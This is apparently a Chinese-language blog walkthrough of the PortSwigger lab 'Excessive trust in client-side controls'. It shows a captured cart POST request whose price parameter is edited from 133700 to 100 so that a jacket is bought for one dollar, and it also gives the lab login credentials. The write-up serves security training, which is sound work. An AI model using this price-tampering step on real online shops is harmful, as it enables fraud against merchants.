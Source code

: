 ```yaml
---
layout: post
title: "Excessive trust in client-side controls"
description: ""
date: 2023-07-11
categories:
  - PortSwigger_Lab
  - PortSwigger_Business_Logic
author: ""
tags: ['PortSwigger_Lab', 'Business_Logic']
---
```






翻譯:
過度信任客戶端控制



credentials: `wiener:peter`

登入
看一下帳戶 只有100刀

目標:
購買 Lightweight "l33t" Leather Jacket
1337元



進入 view detail

並加入購物車。

在這裡用bp 抓包





```http
POST /cart HTTP/1.1
Host: 0a9600e50344b4c6c0360db700c50068.web-security-academy.net
Cookie: session=fFGxn1AuLxE2FVLda3bu3VDgkZv0P542
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Origin: https://0a9600e50344b4c6c0360db700c50068.web-security-academy.net
Referer: https://0a9600e50344b4c6c0360db700c50068.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

productId=1&redir=PRODUCT&quantity=1&price=133700

```

使用post 方式傳送
把price改成 100


然後去cart 可以發現購買價格為1元


按下購買。


實驗完成。



